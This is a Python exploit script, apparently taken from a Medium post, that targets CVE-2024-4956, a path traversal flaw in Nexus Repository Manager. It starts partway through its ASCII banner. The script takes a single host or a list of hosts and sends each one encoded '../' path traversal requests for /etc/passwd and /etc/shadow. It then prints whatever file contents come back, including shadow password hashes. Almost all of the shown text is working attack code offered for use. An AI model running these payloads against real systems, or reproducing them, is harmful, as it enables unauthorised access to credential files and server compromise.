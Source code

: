     __     __                _                      _____         _       
    \ \   / /__ _ __ _   _  | |    __ _ _____   _  |_   _|__  ___| |__    
     \ \ / / _ \ '__| | | | | |   / _` |_  / | | |   | |/ _ \/ __| '_ \   
      \ V /  __/ |  | |_| | | |__| (_| |/ /| |_| |   | |  __/ (__| | | |  
       \_/ \___|_|   \__, | |_____\__,_/___|\__, |   |_|\___|\___|_| |_|  
                     |___/                  |___/                         
                                                                                           
                        {bold}{white}@VeryLazyTech - Medium {reset}\n"""  
                          
        return banner  
      
      
    def read_ip_port_list(file_path):  
        with open(file_path, 'r') as file:  
            lines = file.readlines()  
        return [line.strip() for line in lines]  
      
      
    def make_request(ip_port, url_path):  
        url = f"http://{ip_port}/{url_path}"  
        try:  
            response = requests.get(url, timeout=5)   
            return response.text  
        except requests.RequestException as e:  
            return None  
      
      
    def main(ip_port_list):  
        for ip_port in ip_port_list:  
            for url_path in ["%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd", "%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/shadow"]:  
                response_text = make_request(ip_port, url_path)  
                if response_text and "nexus:x:200:200:Nexus Repository Manager user:/opt/sonatype/nexus:/bin/false" not in response_text and "Not Found" not in response_text and "400 Bad Request" not in response_text and "root" in response_text:  
                    print(f"Address: {ip_port}")  
                    print(f"File Contents for passwd:\n{response_text}" if "passwd" in url_path else f"File Contents for shadow:\n{response_text}")  
                    break  
      
      
    if __name__ == "__main__":  
        parser = argparse.ArgumentParser(description=f"[{bold}{blue}Description{reset}]: {bold}{white}Vulnerability Detection and Exploitation tool for CVE-2024-4956", usage=argparse.SUPPRESS)  
        group = parser.add_mutually_exclusive_group(required=True)  
        group.add_argument("-u", "--url", type=str, help=f"[{bold}{blue}INF{reset}]: {bold}{white}Specify a URL or IP with port for vulnerability detection\n")  
        group.add_argument("-l", "--list", type=str, help=f"[{bold}{blue}INF{reset}]: {bold}{white}Specify a list of URLs or IPs for vulnerability detection\n")  
        args = parser.parse_args()  
          
        if args.list:  
            ip_port_list = read_ip_port_list(args.list)  
            print(banner())  
            main(ip_port_list)  
        elif args.url:  
            ip_port_list = [args.url]  
            print(banner())  
            main(ip_port_list)  
        else:  
            print(banner())  
            parser.print_help()
